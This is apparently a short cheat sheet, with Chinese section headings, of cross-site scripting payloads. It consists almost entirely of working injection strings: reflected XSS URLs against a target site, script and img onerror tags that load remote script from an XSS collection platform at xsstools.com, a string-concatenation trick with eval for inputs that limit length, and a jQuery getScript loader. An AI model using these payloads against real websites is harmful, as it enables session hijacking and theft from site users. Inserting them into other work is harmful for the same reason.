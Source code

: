 ```http://target_sys.com/xss/xss04.php?name=%3CScript%3Ealert(1);%3C/Script>```

```<script src=http://www.xsstools.com/amER></script>```

```<script src=//www.xsstools.com/amER></script>  ```             

#### img创建script加载

```<img src=x onerror=document.body.appendChild(document.createElement('script')).src='//www.xsstools.com/amER'>```

反射性[http://target_sys.com/xss/xss01.php?name=%3Cimg%20src=x%20onerror=document.body.appendChild(document.createElement(%27script%27)).src=%27//www.xsstools.com/amER%27%3E](http://target_sys.com/xss/xss01.php?name=)

#### 字符并接

这种一般是输入的字符有限制的时候使用

```<script>z='document.'</script>```

```<script>z=z+'write("'</script>```

```<script>z=z+'<script'</script>```

```<script>z=z+' src=ht'</script>```

```<script>z=z+'tp://www.'</script>```

```<script>z=z+'xsstools'</script>```

```<script>z=z+'.com/a'</script>```

```<script>z=z+'mER></sc'</script>```

```<script>z=z+'ript>")'</script>```

```<script>eval(z)</script>```

### jquery加载

```<script src="http://code.jquery.com/jquery-1.9.1.min.js"></script>```

``` <script>$.getScript("//www.xsstools.com/amER");</script>```